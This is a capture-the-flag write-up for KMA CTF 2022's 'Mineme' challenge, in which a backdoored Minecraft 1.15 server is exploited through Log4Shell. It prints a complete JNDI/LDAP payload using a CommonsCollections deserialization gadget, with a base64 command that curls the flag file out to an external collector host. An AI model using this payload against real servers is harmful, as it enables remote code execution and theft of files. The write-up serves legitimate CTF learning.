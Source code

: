 ```yaml
---
title: KMA CTF 2022
date: 2022-06-24 20:00:00 
layout: post
categories: CTF
tags: [CTF]
toc: true
---
```


## Mineme

[+] Download [SOURCE_CODE](https://drive.google.com/uc?id=1PFppvmsCi3VC3p4_a-ZXdl9J8lB1xck4&export=download)

[+] Description of challenge

![img](https://i.imgur.com/Qezua1Q.png)

- The frist download MineCraft [tlauncher](https://tlauncher.org/)
- Server game `149.28.135.96:13337`

### Setup

- After downloading `Tlaucher` to run the game, you need to choose the correct `version 1.15` as below, because the server is provided as `server_1.15`
  ![](https://i.imgur.com/LpYtSL2.png)

- Continue to the `mutiplayer` section to add your server or the author.

- To run the server in localhost, you can use the dockerfile that the author provides or runs files `server_1.15.jar`
  ![](https://i.imgur.com/63O4Sgt.png)
- After running the file server_1.15.jar, the results will be. Server will be localhost: 25565

## Analysis

- After I opened the file `server_1.15.jar` with `JD-GUI`, it was quite shocked because too much `class`, because I never tried to see the server of Minecarft Code. Now that I go to read each class, it's a bit tired, so I decided to go to Google to read some articles about Minecarft's server.

- Because the description mentioned backdoor, I download another server on the internet, namely `version 1.15.2` to `DIFF`.

- Command used `diff` by `IntelliJ`
  ![](https://i.imgur.com/PkFg5CF.png)
- After surfing, there is no difference that is related to this challenge exploitation, only one thing is worth noting in the author's file provided, with adding `collection` => may be related to `Deserialize`
  ![](https://i.imgur.com/xvqckgO.png)

- One more thing is that the `Log4j` vulnerability when public is available, the articles also mention Minecarft influenced by this vulnerability. So here I tried `Trigger Log4J` to see if it was successful.

![](https://i.imgur.com/BJg1eMZ.png)

- Try chat with payload `Log4j `then realize that there is a DNS return => The program has a `log4j vulnerability`
  ![](https://i.imgur.com/LrhvH10.png)

### Exploitation

- If trigger was `Log4j`, I continued to need RCE to get the flag. I use `JNDIExploit` tool with `Basic Queries`, I can't `RCE`.

- Above when I `diff`, there is `collection` => may be related to `Deserialize`. So in this tool has some part to create Payload with the Gadget.
  ![](https://i.imgur.com/qZfsgaT.png)

- First, I tried with `Payload URLDNS` and `CommonsCollectionsK1 /DNSLOG`, I saw `DNS` to the domain, but when running with `CommonsCollectionsK2` to RCE, it was not working again.
- I decided to fix the payload of `CommonsCollectionsK1` from`ldap://[IP_VPS]:1389/Deserialization/CommonsCollectionsK1/Dnslog/` to `ldap://[IP_VPS]:1389/Deserialization/CommonsCollectionsK1/Command/Base64/Y3VybCAtZCBAL2ZsYWcgaHR0cDovL3N1cWw0bWF0LnJlcXVlc3RyZXBvLmNvbQ==`

[+] Run tool command
![](https://i.imgur.com/XXrWUVy.png)

- Change your IP vps into red point

- Send payload to get flag

```
${jndi:ldap://165.22.109.11:1389/Deserialization/CommonsCollectionsK1/Command/Base64/Y3VybCAtZCBAL2ZsYWcgaHR0cDovL3N1cWw0bWF0LnJlcXVlc3RyZXBvLmNvbQ==}
```

- In `3VybCAtZCBAL2ZsYWcgaHR0cDovL3N1cWw0bWF0LnJlcXVlc3RyZXBvLmNvbQ==`  is `curl -d @/flag http://suql4mat.requestrepo.com`
![](https://i.imgur.com/s9eRtsA.png)
#### Challenge Pwned
FLAG `KMACTF{log4shell_go_bruh_bruh!!!}`
